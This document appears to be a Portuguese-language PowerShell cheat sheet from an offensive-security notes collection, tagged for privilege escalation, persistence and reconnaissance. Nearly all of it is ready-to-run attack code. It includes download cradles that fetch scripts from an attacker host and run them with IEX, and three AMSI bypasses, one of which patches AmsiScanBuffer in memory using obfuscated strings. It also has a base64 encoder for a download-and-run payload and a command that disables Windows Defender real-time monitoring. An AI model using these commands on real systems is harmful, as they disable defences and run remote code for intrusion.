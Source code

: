 # powershell

#plateform/windows #target/local #cat/PRIVESC #cat/PERSIST #cat/RECON #tag/powershell 

## Download cradle
```powershell
(new-object system.net.webclient).downloadstring('http://<ip>/<script>') | IEX
```

## Obter arquivo a lixeira
```powershell
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *
```

## Obter processo
```powershell
Get-Process
```

## Obter Proxy
```powershell
[System.Net.WebRequest]::DefaultWebProxy.GetProxy("http://<ip>/<url>")
```

## Obter modo de linguagem
```powershell
$ExecutionContext.SessionState.LanguageMode
```

## Bypass AMSI com _amsiContext_ (somente no powershell)
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

## Bypass AMSI com _AmsiInitFailed_ (somente o powershell)
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*InitFailed") {$f=$e}};$f.SetValue($null,$true)
```

## Bypass AMSI utilizando patching  (funciona para binrios .NET tambem)

more infos here : https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/

```powershell
$ZQCUW = @"
using System;
using System.Runtime.InteropServices;
public class ZQCUW {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $ZQCUW
$BBWHVWQ = [ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))")
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ, "$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))")
$p = 0
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p)
$TLML = "0xB8"
$PURX = "0x57"
$YNWL = "0x00"
$RTGX = "0x07"
$XVON = "0x80"
$WRUD = "0xC3"
$KTMJX = [Byte[]] ($TLML,$PURX,$YNWL,$RTGX,+$XVON,+$WRUD)[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)
```

## Verifica PPL
```powershell
Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL"
```

## Verifica a lista de permissões da aplicação
```powershell
Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrpV2\Exe
```

## Exibe a confiança da floresta
```powershell
([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()).GetAllTrustRelationships()
```

## Obter a confiaça do dominío
```powershell
Get-DomainTrust -Domain <domain>
```

## Obter SID do dominío
```powershell
Get-DomainSID -domain <sid>
```

## hostrecon
https://github.com/dafthack/HostRecon

```
(new-object system.net.webclient).downloadstring('http://<lhost>/HostRecon.ps1') | IEX; Invoke-HostRecon
```

## privesccheck
https://github.com/itm4n/PrivescCheck

```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/PrivescCheck.ps1') | IEX; Invoke-PrivescCheck
```

## powershell visualiza assemblies
```powershell
[appdomain]::currentdomain.getassemblies() | Sort-Object -Property fullname | Format-Table fullname
```

## Obter endereço do proxy via powershell
```powershell
$proxyAddr=(Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer
```

## Configurar proxy com powershell
```powershell
[system.net.webrequest]::DefaultWebProxy = new-object System.Net.WebProxy("http://<proxaddress|$proxyAddr>")
```

## powershell - Gera um payload encodado em base64 para baixar o runner
#plateform/linux #target/local #cat/PRIVESC #cat/PERSIST #cat/RECON #tag/powershell 

```powershell
pwsh -Command '$text = "(New-Object System.Net.WebClient).DownloadString(''http://<lhost>/<file>'') | IEX";$bytes = [System.Text.Encoding]::Unicode.GetBytes($text);$EncodedText = [Convert]::ToBase64String($bytes);$EncodedText'
```

## powershell - Desativa o monitoramente em tempo real (Windows Defender)
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```
